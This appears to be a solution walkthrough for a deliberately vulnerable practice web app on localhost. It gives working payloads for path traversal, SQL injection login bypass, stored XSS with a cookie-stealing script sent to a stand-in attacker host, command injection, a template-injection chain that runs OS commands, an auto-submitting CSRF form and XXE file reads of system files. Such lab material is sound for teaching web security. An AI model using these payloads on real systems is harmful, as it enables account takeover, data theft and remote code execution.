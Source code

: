 ### LFI challenge

http://127.0.0.1:8080/find_secret?file=..\..\..\secrets.txt


### SQLi:

enter "' OR 'a'='a';--" inside the Email Address field

### XSS stored:

After logging in as a user,
Add a note such as "<script> alert(1) </script>"

Due to the insecure session management, an attacker can also retrieve the session data of the logged-in user with
the following script.

```
<script>document.location='http://veryevilhacker.com?cookie='+document.cookie</script>
```

An attacker hosting the malicious site can look at the log data and sees the user's cookie value to authenticate as the user.


### Command injection:


go to http://127.0.0.1:8080/ping and

enter "127.0.0.1 | whoami"


### XSS Reflected:


### SSTI:

Vulnerable Endpoint: http://127.0.0.1:8080/find_secret?file=

If you supply a file name that doesn't exist on the backend, it shows an error such as "404 page not found: the resource does not exist!".

Since the template is being used insecurely, it's vulnerable to SSTI.

Simply supply {{ 7 * 7 }} for the file parameter and observe it returns 49.

We can also achieve a RCE with: (reveals the files in the current directory)

```
http://127.0.0.1:8080/find_secret?file={%%20for%20x%20in%20().__class__.__base__.__subclasses__()%20%}{%%20if%20%22warning%22%20in%20x.__name__%20%}{{x()._module.__builtins__[%27__import__%27](%27os%27).popen(%22dir%22).read()}}{%endif%}{%%20endfor%20%}
```


### CSRF attack

After logging in, there's a functionality to change the current user's email.

Since the CSRF token is not implemented, attacker can craft a payload and put it inside a website to trick a user to visit the site, then submit a form to change the logged-in user's email to whatever the email attacker specifies it as.
Payload:
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

```

#### XXE

The login page shows there's an endpoint /is_xml where a user can send a post request containing an XML file with a key:xml to check if the file is valid.
This function is vulnerable to an XXE attack.

sample payload:

Linux:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<items>
    <name>&xxe;</name>
    <price>100</price>

</items>

```


Windows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///C:/windows/system32/drivers/etc/hosts">]>
<items>
    <name>&xxe;</name>
    <price>100</price>

</items>
```

Upload the xml file via a POSTMAN by choosing the "form-data" option and specify the Key as "xml" and select the payload file.